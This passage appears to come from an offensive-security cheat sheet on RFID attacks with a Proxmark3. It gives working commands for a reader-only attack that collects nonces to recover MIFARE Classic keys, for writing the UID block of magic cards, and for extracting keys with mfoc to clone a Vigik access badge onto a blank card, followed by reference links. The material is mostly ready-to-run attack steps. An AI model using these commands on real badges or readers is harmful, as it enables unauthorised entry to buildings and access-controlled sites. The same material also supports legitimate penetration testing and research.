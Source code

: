 #### Reader only attack

Emulate a MIFARE Classic with a DEADBEEF UID.

```powershell
proxmark3> hf mf sim u deadbeef n 1 x
mf 1k sim uid: de ad be ef , numreads:0, flags:18 (0x12)
#db# Collected two pairs of AR/NR which can be used to extract keyA from reader for sector 1:
#db# ../tools/mfkey/mfkey32 deadbeef 0102xxxx 4d9axxxx 87e7xxxx 06d2xxxx b4a0xxxx
#db# Emulator stopped. Tracing: 1 trace length: 253
#db# 4B UID: deadbeef
```

#### Read a Mifare Dump

```powershell
pip install bitstring
git clone https://github.com/zhovner/mfdread
mfdread.py ./dump.mfd
```

### HF - Mifare Classic 4k

#### Chinese Magic Mifare Classic 4K

Block 0 is writable through normal Mifare Classic commands, i.e. there is not special “unlocked” read/write like in “magic Mifare 1k” version.

Writing block 0 with Proxmark, UID 01020304, using key A being FFFFFFFFFFFF:

```powershell
hf mf wrbl 0 a FFFFFFFFFFFF 01020304040000000000000000000000
```

Again, watch out to have correct BCC and avoid Cascading Tag (0x88) as first byte of UID, or you may make the card unselectable (i.e. brick it).

### HF - Vigik

Tool : https://github.com/cjbrigato/kigiv-for-proxmark3/releases

```powershell
modprobe -r pn533_usb
modprobe -r pn533
nfc-list # Vérifier le bon fonctionnement du lecteur
mfoc -P 500 -O carte-vierge.dmp # Extraire les clés de chiffrement de la puce RFID chinoise dans un fichier
mfoc -P 500 -O carte-originale.dmp # Copiez le contenu de la puce RFID d’origine dans un fichier
nfc-mfclassic W a carte-originale.dmp carte-vierge.dmp # Ecrire le contenu de la puce originale sur la puce chinoise
```

### References

* https://blog.kchung.co/rfid-hacking-with-the-proxmark-3/
* https://aur.archlinux.org/packages/proxmark3/
* https://github.com/Proxmark/proxmark3/wiki/Kali-Linux
* https://github.com/Proxmark/proxmark3/wiki/Mifare-HowTo
* https://www.latelierdugeek.fr/2017/07/12/rfid-le-clone-parfait/
* https://github.com/cjbrigato/kigiv-for-proxmark3/releases
* http://guillaumeplayground.net/proxmark3-hardnested/
* https://www.ordinoscope.net/index.php/Electronique/Hardware/Divers/RFID/Proxmak3/Mf\_(Mifare)
* https://pi3rrot.net/wiki/doku.php?id=rfid:break\_mifare1k\_proxmark3
* https://connect.ed-diamond.com/MISC/MISCHS-016/Proxmark-3-le-couteau-suisse-RFID
* https://blandais.github.io/mifare/fr
* http://www.icedev.se/pm3docs.aspx
* http://www.icedev.se/pm3cmds.aspx
* https://scund00r.com/all/rfid/2018/06/05/proxmark-cheatsheet.html
* https://www.tinker.sh/badge-cloning-clone-hid-prox-with-proxmark3-rvd4/